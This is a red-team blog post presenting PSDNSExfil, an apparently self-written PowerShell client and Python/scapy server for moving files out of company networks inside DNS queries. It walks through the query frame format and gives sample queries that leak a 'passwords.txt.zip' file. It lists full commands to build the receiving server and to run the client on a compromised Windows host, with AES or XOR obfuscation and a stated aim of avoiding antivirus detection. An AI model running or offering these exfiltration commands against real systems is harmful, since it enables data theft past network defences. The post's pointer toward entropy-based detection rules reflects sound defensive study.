


# Context

Companies spend a lot of time and effort to deploy network solutions (e.g. DLP) and design their architecture (e.g. Segmentation) to be bullet proof against data exfiltration. The harsh problem of isolating your network to the maximum and building big digital walls around your business data is the usual in the cyber security field: it collides with usability. People (and software) in your company still need to work and do their daily job, therefore, there is always a way to transport data from one system to another. 

As attackers, we are always interested in abusing these sanctioned methods to demonstrate that is still possible to exfiltrate data. One of such ways would be using an alternative protocol as a side-channel for that. What a better protocol than one that is ubiquitous in all companies of the world: DNS.

Firewalls usually allow outbound traffic to port 53/TCP and UDP. Let's take advantage of that.

Have in mind that DNS exfiltration is nothing new, and it has been doing the rounds for a long time, but I felt that I needed to learn my own way here by implementing it myself. More modern implementations of exfiltration via side channels could use DNS over HTTP, such as [goDoH](https://github.com/sensepost/godoh), which is also a more complete c2, go check it out! 

# Inspiration 

I was Inspired by an internal [SensePost's](https://sensepost.com/) blog post of my colleague Ian, who wrote a Python script to exfiltrate some files from a compromised system which already had python installed. I thought that it would be really nice if we could have a similar proof of concept without requiring Python, which is not usually installed in Windows system. Using PowerShell would be much more portable.

For that purpose I created a proof of concept tool: [PSDNSExfil](https://github.com/felmoltor/psdnsexfil).

It has server and client components. The client is written in PowerShell and the server is written in Python.

The server uses [scapy](https://scapy.net/) to listen for DNS traffic and respond to the DNS queries. It's effectively, a selective name server, which only answers to queries of a specific domain to filter out the noise from the Internet. 

It supports compression of the file to exfiltrate and encryption with AES an XOR.

**Disclaimer**: please, do not take this encryption really seriously, and consider this as a form of obfuscation instead. As an interesting example, see how the XOR key gets easily leaked when the file contain large sections of zeros (0), when XOR'ed with the Key it results in the Key itself:


_Password 'VivanLosFlamenquines' is leaked when a file with a section of zeros is exfiltrated_

# How it works
The tool utilises DNS queries for [Type A](https://www.cloudflare.com/learning/dns/dns-records/dns-a-record/). The 'name' being queried, instead of being a real domain name is just metadata and data to be exfiltrated. It's important to note that, not every character can go in a query, therefore, it is not an option to encode your data with [Base64](https://en.wikipedia.org/wiki/Base64) and directly pipe it as a name in the query. For that case, I found that [Base36](https://en.wikipedia.org/wiki/Base36), a less known encoding scheme, is well suited for this, as it only contains numbers (0-9) and arabil letters (A-Z).

For the server to understand what is receiving from the client side, I have designed three type of queries:
1. **Metadata**:
    1. File Name: Just the file name that is being exfiltrated.
    2. File Hash: The sha1sum of the file being exfiltrated. This is to verify that the file was correctly exfiltrated and its sha1 matches the source hash.
2. **Data**:
    1. File Content: The data of the file being exfiltrated.

On close up observation, the queries look like this:

## Metadata Frame - File Name
A 'file name' metadata query could look like this: 
`NJsBr000000470617373776F7264732E7478742E7A6970.t.co`

Which, breaking it down is:
* NJsBr (The Ref. ID): This reference ID is unique for each transaction.
* 000000 (Sequence Number)
* 4 (Type): This is the type of the query. In this case, '4' means File Name frame.
* 70617373776F7264732E7478742E7A6970 (Filename): This is the file name encoded in hexadecimal, in this case it is 'passwords.txt.zip'.

## Metadata Frame - File Hash
A 'file hash' metadata query could look like this: 
`NJsBr00000010000CC10C9F3C79DDDA4B9EF32DC59B618F0FACADCF1FAB6.t.co.`

Which, breaking it down is:
* NJsBr (The Ref. ID): This reference ID is unique for each transaction.
* 000000 (Sequence Number)
* 1 (Type): This is the type of the query. In this case, '4' means File Name frame.
* 0000C (Length): This is the length, in number of queries, of the file to being transmitted.
* 0 or 1 (Comrpessed flag): This is a flag to indicate the server if the content of the file is compressed or not.
* 0C9F3C79DDDA4B9EF32DC59B618F0FACADCF1FAB6 (sha1 hash): The hash of the file. To be compared with the file that the server has received.

## Data Frame
A 'data' query could look like this:
`NJsBr000001504B0304140000000800A4532955245BCDD8620000007000000.t.co.`
* NJsBr (The Ref. ID)
* 000001 (Sequence Number)
* 504B0304140000000800A4532955245BCDD8620000007000000 (Data)

# Usage 
## Server
The server requires permissions to listen on port 53/upd, which means that probably you need to run the script with `root` privileges or provide the capabilities to your user. Additionally, in Ubuntu systems, you probably need to kill [systemd-resolved](https://wiki.archlinux.org/title/Systemd-resolved) process before running this server.

There are two options to run the server, by creating a pipenv environment or using docker mapping theport 53/udp and a volume to keep the files exfiltrated to the docker container.

### Docker
```bash
git clone https://github.com/felmoltor/psdnsexfil
cd psdnsexfil
docker build . -t psdnsexfilserver
docker run -it --rm psdnsexfilserver -h
# Map the DNS ports and a volume to keep the files you exfiltrate from the client-side
mkdir exfiltrated
docker run -it --rm -p53:53 -p53:53/udp  -v $(pwd)/exfiltrated:/exfiltrated psdnsexfilserver -d t.co -o /exfiltrated
# If you want to receive encrypted data with the password 'Strong_Password_yes_123' use:
docker run -it --rm -p53:53 -p53:53/udp  -v $(pwd)/exfiltrated:/exfiltrated psdnsexfilserver -d t.co -o /exfiltrated -e AES -a Strong_Password_yes_123
```

### Pipenv
```bash
apt install pip
pip install pipenv
pipenv install .
pipenv shell
./fultonserver.py -h
mkdir exfiltrated
./fultonserver.py -d t.co -o exfiltrated -e AES -a Strong_Password_yes_123
```

**Disclaimer**: I have tested the server on the same LAN as the victim computer and it goes really fast, as the client receives the query response quickly. When doing the tests on a public jumpbox (e.g. in an AWS VPS), the process is **much more slower**, as the client side repeats the query multiple times. The query responses arrive, but they seem to be ignored by the client side. I'm not sure why and this is something I need to speed up the process. After all, this tool is still just a nice PoC :-D

## Client
Using the client should be straightforward: Clone the github project, copy the folder "client" to the compromised system, open a PowerShell terminal and invoke:
```powershell
# Get help, buddy
.\Fulton.ps1 -?
# Exfiltrate a file 
.\Fulton.ps1 -Path exfiltrate.bak -DNSServer <yourfultondns>
# Exfiltrate a file encrypting it with AES first (you need to inform your fultonserver about the encryption as well with the flag -e ENCRYPTION and -a PASSWORD). Disclaimer: Do not take this encryption or the XOR one seriously, take it more as an obfuscation method.
.\Fulton.ps1 -Path exfiltrate.bak -DNSServer <yourfultondns> -EncryptionMethod AES -Password Strong_Password_yes_123
```

How does this traffic is seen in `Wireshark/tcpdump`?


_This is not your average DNS traffic_

As you can observe, this traffic looks really suspicious. 
Here's your chance to design detection rules based in the entropy and frequency of the DNS queries!

# Github Project
Here's the code:
* [https://github.com/felmoltor/psdnsexfil](https://github.com/felmoltor/psdnsexfil)

# Conclussions
I did this tool as a way to learn how DNS exfiltration works under the hood. Another objective was to have something that would not be flagged as malicious by comercial AV products. I did not set other grandious objectives beyond these two, but I thought it is nice if I shared the tool with other people.

As mentioned before, using this tool on the same LAN as the compromised computer was really quick, but I am having quite some troubles making it quicker when the DNS server is in a public jumpbox in the Internet. I'll work to make it faster in that case.

Let me know if you use the tool and works for you.
PRs are welcome!
